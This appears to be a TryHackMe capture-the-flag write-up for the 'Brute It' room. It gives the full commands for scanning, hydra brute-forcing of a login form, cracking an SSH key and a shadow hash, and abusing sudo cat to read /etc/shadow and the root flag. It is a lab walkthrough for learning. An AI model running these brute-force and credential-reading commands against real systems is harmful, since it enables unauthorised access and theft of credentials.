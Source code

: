 ```yaml
---
layout: post
title: "Brute It"
date: 2022-03-23
categories: [Tryhackme, Easy-THM]
tags: [security, brute-force, hash-cracking, privesc]
image: ../../assets/img/posts/BruteIt.png 

---
```


## Description

This room is aimed for beginner level hackers but anyone can try to hack this box. There are two main intended ways to root the box. 

|**Room**|[Brute It](https://tryhackme.com/room/bruteit)|
|:---:|:---:|
|**OS**|Linux|
|**Difficulty**|Easy|
|**Creator**|[ReddyyZ](https://tryhackme.com/p/ReddyyZ)|

---

Deploy the machine and quickly scan the ports with rustscan,

```bash
rustscan -a 10.10.201.165 --ulimit 5000
```

![image](https://user-images.githubusercontent.com/67465230/159628499-3860f7f4-2794-4975-bf39-e47b4b6844e9.png)

we got 2 open ports. Let's scan them in detail with nmap.

```bash
nmap -sV -sC -p22,80 10.10.201.165 -oN nmap.txt
```

![image](https://user-images.githubusercontent.com/67465230/159628506-5552b7b1-ae52-4ea4-9dba-96a35273a67c.png)

Result scan reveals that port 22 is running ssh service and port 80 is running apache webserver. Enumerate port 80.

Visit http://10.10.201.165,

![image](https://user-images.githubusercontent.com/67465230/159628532-ffce019a-5613-42e8-93a1-0c66b7426b13.png)

we got a default webpage of apache.

Nothing more can be found here, so I decided to find hidden directories using dirsearch,

```bash
dirsearch -u http://10.10.201.165 -w /usr/share/seclists/Discovery/Web-Content/common.txt -i 200,301 -dirsearch.txt 2>/dev/null
```

![image](https://user-images.githubusercontent.com/67465230/159628549-677eb583-9687-4ddb-ade5-d9bc2857e668.png)

and we got a hidden directory by path /admin.

Visiting http://10.10.201.165/admin,

![image](https://user-images.githubusercontent.com/67465230/159628559-26556a5d-bc54-4fc9-b2a2-2631f999a928.png)

we land on login page. 

I tried to read the source code of the page,

![image](https://user-images.githubusercontent.com/67465230/159628570-e21219f0-afce-4818-92d1-dc5d5ed031ae.png)

we got a username, **admin**.

We can now actually use hydra to perform brute force on login page on username admin,

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.201.165 http-post-form "/admin/:user=^USER^&pass=^PASS^:Username or password invalid" -V
```

![image](https://user-images.githubusercontent.com/67465230/159628689-41d857f8-6a77-4b1e-ab73-27f2b8a3d970.png)

and we got the password. So now we can login on the login form using these credentials.

We got the link to our id_rsa key,

![image](https://user-images.githubusercontent.com/67465230/159628748-83bdccad-6ea1-4e01-8c0a-663b16083d6b.png)

following the link took me the page where this key was situated,

![image](https://user-images.githubusercontent.com/67465230/159628758-324f47bd-60ea-40b7-b61a-1e7697454097.png)

Copy this key and paste this into a file so that we can use **ssh2john** to convert this hash into crack-able hash, 

```bash
/usr/share/john/ssh2john.py rsa > crack_rsa
```

Now that we got our hash, we can crack it using JTR,

```bash
john crack_rsa --wordlist=/usr/share/wordlists/rockyou.txt
```

![image](https://user-images.githubusercontent.com/67465230/159719508-02f21f8c-c3fc-48e6-8346-3dec1006c787.png)

we got our password.

Now, changing the permission of id_rsa file and we can get into machine via ssh service,

```bash
chmod 600 id_rsa
ssh -i id_rsa john@10.10.201.165
```

![image](https://user-images.githubusercontent.com/67465230/159719534-20d7a81a-27d6-4e92-b35b-918ead17f9be.png)

we got in.

Enumerating directory, we got our user flag,

![image](https://user-images.githubusercontent.com/67465230/159719547-cc506967-3fd3-41ba-aea7-397a0cf94faa.png)

Now, comes the privilege escalation part. We can look for binaries which can be run as sudo,

```bash
sudo -l
```

![image](https://user-images.githubusercontent.com/67465230/159719552-1512c859-a010-437b-a508-f54e9effee60.png)

**/bin/cat** binary can be run as sudo. 

looking at gtfobins for escalation, 

![image](https://user-images.githubusercontent.com/67465230/159719570-b5a33b5c-a9ef-49e6-a511-9dac19c709ca.png)

we can read the files which are owned by root user.

Lets read the /etc/shadow file,

```bash
sudo /bin/cat /etc/shadow
```

![image](https://user-images.githubusercontent.com/67465230/159719594-554d1264-95ed-4efe-91c0-85899d4ddfe6.png)

it will reveal us all hashes of users.

We can copy the hash into file named hash,

```bash
echo "$6$zdk0.jUm$*********************************/***********************.***************************." > hash
```

Now, we can crack this hash using hashcat,

```bash
hashcat -m 1800 hash /usr/share/wordlists/rockyou.txt --force
```

And now, we can read the root flag using /bin/cat binary,

```bash
sudo /bin/cat /root/root.txt
```

![image](https://user-images.githubusercontent.com/67465230/159719604-a2ef1ff2-f731-4bcd-bcaa-63121939a0f8.png)

OR

We can become root user by `sudo su` and enter the password we obtain from hashcat.